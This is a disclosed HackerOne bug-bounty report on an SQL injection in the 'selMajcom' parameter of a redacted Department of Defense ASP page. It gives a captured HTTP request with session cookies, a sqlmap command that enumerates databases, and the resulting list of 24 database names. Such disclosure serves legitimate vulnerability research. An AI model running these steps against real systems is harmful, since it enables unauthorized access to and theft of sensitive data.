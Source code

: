# SQL Injection at https://████████.asp (█████████) [selMajcom] [HtUS]

## Report Details
- **Report ID**: 1628408
- **URL**: https://hackerone.com/reports/1628408
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-07-06T16:07:29.133Z
- **Disclosed**: 2023-01-06T18:56:03.398Z

## Reporter
- **Username**: haxor31337
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
## Summary:
SQL injection (SQLi) is a vulnerability in which an application accepts input into an SQL statement and treats this input as part of the statement. Typically, SQLi allows a malicious attacker to view, modify or delete data that should not be able to be retrieved. An SQLi vulnerability was found for this host which allows an attacker to execute code and view data from the SQL service by submitting SQL queries.

An attacker could exploit this lack of input sanitization to exfiltrate database data and files, tamper with the data, or perform resource exhaustion. Depending on the database and how it is configured, an attacker could potentially remotely execute code on the server running the database.

I found SQL Injection at https://█████████.asp allowing attacker can exfiltrate database and leak sensitive data of ███████ without authentication.

## Steps To Reproduce:
1. Access to https://████.asp 
Create an user, after create go to https://████.asp
2. Capture request on burpsuite with the following request

```
GET /█████mil/AFServices/RequestAccess.asp?selMajcom=MAT*&selbase=MXRD&Submitted=1&Appid=29&FuncID=23&App=Activity+Database+FMP HTTP/1.1
Host: ██████████.████.net:443
Cookie: ebsprod=7nchaAqvaxeCArcwSjtyE0HiG4; ASPSESSIONIDQQBSACRQ=MPHFFIECABOOKHDLEIEEOAHA
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```
Inject SQL query to vulnerable parameter **selMajcom**

Save request to file dod.txt

```
GET /██████mil/AFServices/RequestAccess.asp?selMajcom=MAT*&selbase=MXRD&Submitted=1&Appid=29&FuncID=23&App=Activity+Database+FMP HTTP/1.1
Host: ███.██████████.net:443
Cookie: ebsprod=7nchaAqvaxeCArcwSjtyE0HiG4; ASPSESSIONIDQQBSACRQ=MPHFFIECABOOKHDLEIEEOAHA
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close

```
Attack automation with sqlmap command

```
python sqlmap.py -r dod.txt --dbs --level 3 risk 3 -v3
```

## Supporting Material/References:
█████

```
available databases [24]:
[*] ActivityManager
[*] AFMajcomBases
[*] AFNAF
[*] AFServicesUsers
[*] AFSponsorship
[*] AssetsAndLiabilities
[*] BaseProjects
[*] BEFT
[*] CGO
[*] EICSQL
[*] master
[*] model
[*] msdb
[*] NAFDIS
[*] NAFRIS_restore
[*] ORCA
[*] Property
[*] RMD
[*] ██████████
[*] tempdb
[*] TSD
[*] Unemployment
[*] VMS_Test
[*] W2DATA
```

## Impact

Data exfiltration through a SQLi attack could lead to reputational damage or regulatory fines for the business due to an attacker’s unauthorized access to data. This could also result in reputational damage for the business through the impact to customers’ trust. The severity of the impact to the business is dependent on the sensitivity of the data being stored in, and transmitted by the application.
Leak sensitive data on █████████ service.

## Attachments
No attachments

